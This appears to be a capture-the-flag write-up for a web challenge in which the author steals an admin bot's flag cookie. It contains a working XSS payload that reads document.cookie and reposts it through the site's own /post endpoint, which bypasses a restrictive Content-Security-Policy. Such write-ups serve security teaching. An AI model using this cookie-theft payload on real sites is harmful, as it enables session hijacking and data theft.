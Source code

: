 # Blogspot
Category: Web | 425pts

## Challenge Description
> Jaga created an internal social media platform for the company, can you leak anyone's information?

## Analysis
Glancing through the source code provided and challenge website, we can guess that this challenge is about Cross-Site Scripting (XSS) attacks, more specifically reflected XSS, for the following reasons:
- There is an admin bot with the flag in its cookies that visits the posts everytime a new post is submitted
	<details>
	<summary>Relevant code from admin bot</summary>

	```js
	export const viewPosts = async () => {
		try {
			const browser = await puppeteer.launch(browser_options);
			let context = await browser.createIncognitoBrowserContext();
			let page = await context.newPage();

			let token = await sign({ username: 'admin' });
			await page.setCookie({
				name: "session",
				'value': token,
				domain: "127.0.0.1",
			});
			await page.setCookie({
				name: "flag",
				'value': "REDACTED",
				domain: "127.0.0.1",
			});
			await page.goto('http://127.0.0.1:1337/blog', {
				waitUntil: 'networkidle2',
				timeout: 8000
			});
			await browser.close();
		} catch(e) {
			console.log(e);
		}
	};
	```
	</details>

- There is a post endpoint that accepts a title and content, meaning we can control what the bot sees, or maybe even load a script when the bot visits the page
	<details>
	<summary>Relevant code from post endpoint</summary>

	```js
	router.post('/post', auth, async (req, res)=>{
        const { title, content } = req.body;
        if (title && content) {
            db.addPost(title, req.user.username, content)
                .then(async () => {
                    if (req.user.username != 'admin') { 
                        await viewPosts();
                    }
                    res.status(200).send(response('Success'))})
                .catch(() => {console.log('oof');res.status(500).send(response('Error'))});
        }
    });

	```
	</details>


## Approach
Taking a closer look at the source code provided, we can see that there is a content security policy (CSP) in place.
```js
app.use(function (req, res, next) {
	res.setHeader(
	  'Content-Security-Policy',
	  "default-src 'self'; script-src 'unsafe-inline' 'self' https://cdnjs.cloudflare.com; style-src-elem 'self' https://fonts.googleapis.com; font-src 'self' https://fonts.gstatic.com; connect-src 'self';"
	);
	next();
  });
```
`script-src 'unsafe-inline'` means that we put scripts into posts and they will be run when the page is loaded, which is what we need to do to perform a reflected XSS attack. 

However, `connect-src 'self'` means that we cannot make any requests to other domains. As such, we cannot use a payload to make a request to a post bin with the data we want, `document.cookies` which is the flag in this case. While this limits what we can do, we can still leak the flag by making the bot send a POST request to the `/post` endpoint with the flag in the body and then viewing it on from the posts page directly.

## Solution
Hence, we can use the following payload as a post title to get the flag:
```html
qqq
<script>
	xhr4=new XMLHttpRequest();
	var url4='/post';
	var a=document.cookie;xhr4.open('POST',url4,true);
	xhr4.setRequestHeader('Content-Type','application/json');
	var data=JSON.stringify({"title":"here","content":a});
	xhr4.send(data);
</script>
```

## Explanation
Upon loading the post, the bot runs the script and sends a POST request to the `/post` endpoint with the flag (`document.cookie`) in the body. The flag is then displayed on the page.

## Flag
`STF22{s1mpl3_p0stxSs:)}`
